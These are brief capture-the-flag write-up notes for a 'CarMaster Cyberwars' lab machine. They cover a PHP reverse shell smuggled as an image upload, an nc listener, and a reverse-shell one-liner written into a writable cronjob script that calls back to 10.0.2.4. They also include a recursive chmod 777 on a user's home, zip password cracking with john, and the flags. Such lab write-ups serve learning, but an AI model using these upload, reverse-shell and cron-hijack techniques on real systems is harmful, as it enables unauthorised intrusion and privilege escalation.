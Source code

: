 # CarMaster Cyberwars CTF 

- nmap scan: port ip.100 port 80,22 


1st flag:
- While trying to analyze the files in sell.php: flag{7h47_w45_345y_r16h7?}

2nd flag:

- magic bytes have to match so:
- `cat revshell.php >> cat.jpeg.php` 
- `nc -lvnp 9001`
- on sell page upload modified image
- flag{4lw4y5_v4l1d473_upl04d3d_c0n73n7!}


meanwhile general stuff found:

- in /var/www: do_backup.sh (franklin has full rights, other can write but not read, wtf?)
- linpeas not very fruitfull
- grep didn't show anything with do_backup 
- systemlink to do_backup is not allowed
- all franklin files are read only
- actually useful stuff: 
- cronjob executes do_backup.sh - we have write access to it 
- `echo "cat /tmp/f | /bin/bash -i 2>&1 | nc 10.0.2.4 4444 > /tmp/f" > do_backup.sh`
- nah fuck this shit, just 
- `chmod -R 777 /home/franklin`
- flag{ch3ck_f1l3_p3rm15510n5!}
- read chat_backup.txt
- `python3 -m http.server 8080`
- `curl 10.0.2.100:8080/information.zip --output information.zip`
- `zip2john information.zip > hash`
- `john hash` -> pw: PASSWORD1
- unzip it
- pcap file
- I hate searching with wireshark





